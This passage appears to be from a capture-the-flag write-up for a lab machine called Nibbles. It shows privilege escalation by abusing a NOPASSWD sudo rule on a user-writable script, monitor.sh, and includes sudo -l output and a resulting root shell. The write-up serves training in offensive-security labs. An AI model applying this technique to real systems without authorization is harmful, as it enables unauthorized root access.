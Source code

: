 While lookinig through the sudo privileges the user `nibbler` had, it turns out they have a custom rule built that allows the user to execute a ceratin script in their home directory.
While in a normal circumstance that the user got no write access over the file, this isn't the case.
The user can modify the contents of the script to execute arbitary commands in root context.

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
After abusing this privilege
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh 
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
root@Nibbles:/home/nibbler/personal/stuff# id
uid=0(root) gid=0(root) groups=0(root)
root@Nibbles:/home/nibbler/personal/stuff#
```
Thus gaininig access as root.
